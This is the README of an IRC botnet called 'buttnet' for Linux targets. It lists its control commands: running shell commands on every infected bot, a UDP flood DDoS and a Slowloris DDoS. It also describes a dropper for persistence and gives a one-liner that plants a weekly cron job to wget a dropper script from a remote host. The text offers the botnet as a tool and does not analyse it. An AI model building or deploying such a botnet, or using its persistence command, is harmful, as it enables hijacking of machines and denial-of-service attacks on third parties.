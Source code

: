 # buttnet
A simple IRC Botnet for linux-based targets

##Features
###Commands
* !say `<message>`- Echos message back to channel
  * Command output is PM'd back to command issuer
* !cmd `<command>` - Runs command on all bots in channel, or bot PM'd 
* !udp `<host>` `<port | 0 for random>` `<time(s)>` - UDP flood DDoS attack
* !slowloris `<http|https://host>` `<port>` `<GET|POST>` `<threads>` `<time(s)>` - Slowloris DDoS attack [!UNDER CONSTRUCTION!]

###Dropper
Dropper allows remote persistence. Example:
* `echo "wget http://target/dropper.php" > /etc/cron.weekly/persistence.sh`

###Mutex
Lock file acts as a mutex to prevent multiple instances of the bot from running at once
